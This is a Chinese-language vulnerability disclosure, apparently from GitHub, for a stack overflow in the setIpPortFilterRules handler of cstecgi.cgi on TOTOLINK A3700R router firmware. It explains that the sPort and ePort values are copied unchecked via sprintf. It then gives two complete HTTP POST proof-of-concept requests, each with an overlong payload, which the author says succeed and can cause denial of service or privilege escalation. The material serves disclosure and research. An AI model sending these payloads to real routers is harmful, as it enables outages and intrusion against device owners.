 

### **概述**：
影响设备：totolink A3700R
影响固件版本：V9.1.2u.6165_20211012
影响：堆栈溢出，可以造成拒绝服务和权限提升
固件下载地址：<https://download.totolink.tw/uploads/firmware/A3700R/TOTOLINK_A3700R_V9.1.2u.6165_20211012.zip>
报送邮箱 : zwx918569613@gmail.com

![](Pasted%20image%2020231022165035.png)

### **漏洞**：
该漏洞位于`cstecgi.cgi`中的函数`FUN_0041f884`，函数别名`setIpPortFilterRules`


![](Pasted%20image%2020231023212707.png)


`cstecgi.cgi`通过`topicurl`的值实现处理不同的函数接口
未对传入的参数`sPort`和`ePort`进行长度限制，而`sprintf`格式化拼接参数`sPort`或者`ePort`到变量`acStack_70`中，存在堆栈溢出漏洞


### **POC**:

复现漏洞可以通过使用真机或者使用qemu模拟
使用下方POC可以打通

~~~
POST /cgi-bin/cstecgi.cgi HTTP/1.1
Host: 192.168.122.15
Content-Length: 586
Accept: application/json, text/javascript, */*; q=0.01
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/115.0.5790.110 Safari/537.36
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Origin: http://192.168.122.15
Referer: http://192.168.122.15/basic/index.html
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: SESSION_ID=2:1698059537:2
Connection: close

{"topicurl": "setting/setIpPortFilterRules","addEffect":"1","sPort": "aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa"}

~~~

~~~
POST /cgi-bin/cstecgi.cgi HTTP/1.1
Host: 192.168.122.15
Content-Length: 586
Accept: application/json, text/javascript, */*; q=0.01
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/115.0.5790.110 Safari/537.36
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Origin: http://192.168.122.15
Referer: http://192.168.122.15/basic/index.html
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: SESSION_ID=2:1698059537:2
Connection: close

{"topicurl": "setting/setIpPortFilterRules","addEffect":"1","ePort": "aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa"}

~~~

### **影响效果**：


![](Pasted%20image%2020231023212539.png)
![](Pasted%20image%2020231023213646.png)
